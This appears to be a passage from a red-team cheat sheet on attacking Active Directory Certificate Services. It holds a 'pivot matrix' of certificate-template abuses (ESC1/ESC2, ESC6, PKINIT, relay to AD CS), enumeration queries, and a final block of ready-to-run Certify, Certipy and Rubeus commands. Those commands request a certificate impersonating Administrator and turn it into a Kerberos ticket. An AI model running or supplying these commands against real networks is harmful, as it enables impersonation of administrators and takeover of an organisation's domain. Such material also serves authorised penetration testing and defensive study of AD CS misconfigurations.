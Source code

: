 ## 🎭 **AT-A-GLANCE: AD CS ESSENTIALS**

**Reveals:** CAs, templates, enrollment paths, vulnerable flags (ESC1–ESC8), client‑auth EKUs.

**Use Cases:** PKINIT to TGT, impersonation via SAN/UPN, Enrollment Agent abuse, relay to AD CS.

**Speed:** Stealth 3–6s jitter; Balanced 1–2s; Lab unrestricted.

## 🧭 **PIVOT MATRIX: STRATEGIC NEXT STEPS**

| Finding | Immediate Pivot | Goal | Tool/Technique |
|---------|-----------------|------|----------------|
| EnrolleeSuppliesSubject | ESC1/ESC2 abuse | Impersonation via SAN/subject | Certify, Certipy |
| ClientAuth EKU template | PKINIT | TGT for target principal | Rubeus, Certipy |
| Enrollment Agent EKU | ESC6 OBO | On‑behalf‑of cert for admin | Certify EA |
| HTTP enrollment enabled | NTLM relay | Cert issuance via relay | ntlmrelayx → AD CS |

---

## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### 🔧 Microsoft‑Signed & Native
- `certutil -ca`, `-template`, `-service`, `-store` — Baseline CA/templates/services/stores
- `Get-ADObject -Filter {objectClass -eq "pKICertificateTemplate"} -Properties * -ResultSetSize 50` — Template sample
- `Get-ADObject -Filter {objectClass -eq "pKIEnrollmentService"} -Properties *` — Enrollment services

### ⚔️ Offensive (PowerView/SharpView)
```powershell
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateAuthority)" -Properties *
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties *
Get-DomainObject -LDAPFilter "(objectClass=pKIEnrollmentService)" -Properties *
# Quick vuln filters
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties * | Where-Object {
  $_.'msPKI-Enrollment-Flag' -band 0x2 -or $_.'msPKI-Private-Key-Flag' -band 0x1 }
```

### 🔴 Red Team (AD CS)
```cmd
Certify.exe cas | findstr /i CA                                                   :: CA overview
Certify.exe find /vulnerable                                                      :: Common ESCs
Certify.exe request /ca:CA01 /template:User /subject:CN=Administrator /export     :: Subject/SAN abuse
certipy find -u user@corp.local -p Passw0rd! -vulnerable                          :: Python cross‑check
certipy req -u user@corp.local -p Passw0rd! -template User -upn administrator@corp.local -out admin :: Request
Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /outfile:admin.kirbi :: PKINIT
```
